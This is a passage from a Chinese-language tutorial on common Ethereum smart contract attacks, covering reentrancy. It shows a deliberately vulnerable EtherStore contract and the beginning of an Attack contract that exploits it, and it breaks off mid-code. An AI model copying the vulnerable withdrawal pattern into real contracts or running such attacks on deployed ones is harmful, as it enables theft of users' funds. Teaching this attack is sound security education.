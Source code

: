 常见的合约攻击方式以及如何避免

## **重入漏洞**

以太坊智能合约的一个显著特点是其能够调用和利用其他外部合约的代码。这些合约通常涉及以太币的处理，可能会向各种外部用户地址发送以太币。调用外部合约或向地址发送以太币的操作需要合约进行外部调用。然而，这些外部调用可能会被攻击者劫持，迫使合约执行进一步的代码（例如通过回退函数），这也包括回调自身，导致代码执行“重新进入”合约。这种攻击曾被用于著名的 DAO 攻击事件。

### **漏洞**

当合约将以太币发送到未知地址时，可能会发生“重入”攻击。攻击者可以在回退函数中创建一个恶意代码的合约，然后在外部地址处部署它。因此，当合约向该地址发送以太币时，就会触发恶意代码的执行。通常情况下，恶意代码会在易受攻击的合约上执行一个函数，这个函数会执行开发人员不希望的操作。这种攻击被称为“重入”，因为外部恶意合约重新进入易受攻击合约的代码执行，从而导致不受控制的执行。

为了更好地理解这一点，请考虑一个简单易受攻击的合约，它充当着以太坊的保险库，允许存款人每周提取 1 个以太币。

EtherStore.sol：

```
contract EtherStore {

    uint256 public withdrawalLimit = 1 ether;
    mapping(address => uint256) public lastWithdrawTime;
    mapping(address => uint256) public balances;
    
    function depositFunds() public payable {
        balances[msg.sender] += msg.value;
    }
    
    function withdrawFunds (uint256 _weiToWithdraw) public {
        require(balances[msg.sender] >= _weiToWithdraw);
        // limit the withdrawal
        require(_weiToWithdraw <= withdrawalLimit);
        // limit the time allowed to withdraw
        require(now >= lastWithdrawTime[msg.sender] + 1 weeks);
        require(msg.sender.call.value(_weiToWithdraw)());
        balances[msg.sender] -= _weiToWithdraw;
        lastWithdrawTime[msg.sender] = now;
    }
 }
```

该合约包含两个公共函数：depositFunds() 和 withdrawFunds()。depositFunds() 函数的作用是简单地增加发件人的余额。withdrawFunds() 函数允许发件人指定要提取的以太币数量。只有当请求的提取金额小于 1 以太币并且在上周没有进行过提取时，提取才会成功。但是，事情可能并不像看起来那样简单...

漏洞出现在第 17 行，我们在这里向用户发送他们所请求的以太币数量。考虑一个恶意攻击者创建了以下合约：

Attack.sol：

```
import "EtherStore.sol";

contract Attack {
  EtherStore public etherStore;

  // intialise the etherStore variable with the contract address
  constructor(address _etherStoreAddress) {
      etherStore = EtherStore(_etherStoreAddress);
  }
  
  function pwnEtherStore() public payable {
      // attack to the nearest ether
      require(msg.value >= 1 ether);
      // send eth to the depositFunds() function
      etherStore.depositFunds.value(1 ether)();
      // start the magic
      etherStore.withdrawFunds(1 ether);
  }
  
```